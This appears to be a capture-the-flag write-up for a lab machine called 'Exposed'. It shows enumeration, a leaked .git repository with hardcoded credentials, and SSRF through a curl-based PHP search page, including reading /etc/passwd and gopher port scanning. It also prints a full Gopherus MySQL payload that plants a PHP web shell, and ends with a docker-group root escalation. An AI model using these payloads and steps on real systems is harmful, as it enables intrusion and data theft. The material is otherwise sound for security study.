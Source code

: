 ```yaml
---
layout: post
author: kohaku
title:  "Exposed"
date:   2022-02-26 09:42:45 PM -03
category: Crowsec 
---
```


# Enumeration

{% highlight text  %}
Nmap scan report for 10.8.0.37
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 79:8a:fd:d4:fd:8f:6b:86:1c:90:28:d0:8a:3b:5a:52 (RSA)
|   256 07:74:e9:b4:ac:87:85:17:ea:26:16:0f:8f:81:8e:98 (ECDSA)
|_  256 b3:ee:e8:98:47:42:c7:12:f1:29:1f:01:a5:13:41:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Login Administration
| http-methods:
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight  %}

## Port 80

The main page is a login page, i tried SQL injection, but nothing happen.

So, i start to fuzzing

### Fuzzing

{% highlight bash  %}
ffuf -u http://10.8.0.37/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt | tee fuzz.root
{% endhighlight  %}

{% highlight text  %}
.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10]
.git/index              [Status: 200, Size: 630, Words: 4, Lines: 8]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2]
.git/config             [Status: 200, Size: 92, Words: 9, Lines: 6]
.git                    [Status: 301, Size: 305, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10]
.git/logs/              [Status: 200, Size: 1128, Words: 77, Lines: 18]
assets                  [Status: 301, Size: 307, Words: 20, Lines: 10]
auth                    [Status: 301, Size: 305, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 2706, Words: 445, Lines: 138]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10]
{% endhighlight  %}

The website has a git exposed. I use gitdumper to extract the .git directory

### Git Exposed

{% highlight bash  %}
/opt/gitdumper.sh http://10.8.0.37/.git/ git
{% endhighlight  %}

Git log shows all the commits and i use git show with the hash of the commit to view the files 

{% highlight text  %}
-> git log
commit 83022d2e8bb833b8a1f2715e2134ec7399f1e181
-> git show 83022d2e8bb833b8a1f2715e2134ec7399f1e181
{% endhighlight  %}

This commit has a lot of files, but two files are interesting 

Login.php and search.php

{% highlight text  %}
Login.php has credentials to login
'user' => 'Crows3cAdminist4ti0n',
'password' => 'S3cr3tP@ss0rd_h4rd!*#9)';

Search.php has a command using curl and system
<?php
    $cmd = "curl ".escapeshellarg($_POST['search'])." |cat";
    system($cmd);
    die();
?> 
{% endhighlight  %}

### Search page

The page has a search page, like i saw on git logs

I use burp to intercept the request and start to test 

{% highlight text  %}
search=file:///etc/passwd -> Return the /etc/passwd file 
{% endhighlight  %}

I start to get a little confused about this script with curl, take me a while to use gopher and start to scan the ports

[What is Gopher? - Definition from Techopedia](https://www.techopedia.com/definition/5360/gopher)

I created a script to do a SSRF using gopher and scan the ports

{% highlight bash  %}
for port in {22,21,80,8080,3306}; do echo $port; curl -X POST http://10.8.0.37/search.php -d "search=gopher://localhost:$port/_TEST" -b "PHPSESSID=<Use the php cookie>"; done
{% endhighlight  %}

Looking at the response, i saw the mysql response the request. This host has a MySQL on the localhost

### Gopherus

https://github.com/tarunkant/Gopherus

I use gopherus to create a mysql payload

Note: Remember to double url encode the payload. Because the php do a urldecode and this can cause issues to the payload

{% highlight text  %}
gopherus --exploit mysql
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%56%00%00%00%03%73%65%6c%65%63%74%20%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%24%5f%47%45%54%5b%27%63%6d%64%27%5d%29%20%3f%3e%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%22%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%61%73%73%65%74%73%2f%72%65%76%65%72%73%65%2e%70%68%70%22%3b%01%00%00%00%01
{% endhighlight  %}

{% highlight bash  %}
payload -> select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/assets/cmd.php" #www-data only has access to assets
{% endhighlight  %}

Go to the /assets/<name>.php to access the RCE and create a reverse shell

## Root Flag

www-data is in docker group

`uid=33(www-data) gid=33(www-data) groups=33(www-data),117(docker)`

Using docker images, I saw the docker has no images and i search how to load a local image

- Step 1: Go to my machine and pull alpine image `docker pull alpine`
- Step 2: Export docker image: docker save -o <image.tar> <image> | docker save -o `alpine.tar` `alpine`
- Step 3: Transfer this .tar file to the victim machine
- Step 4: Load the docker image: docker load -i <image.tar> | docker load -i `alpine.tar`
- Step 5: Create a docker container using this image: docker run -it -v /root:/root alpine sh
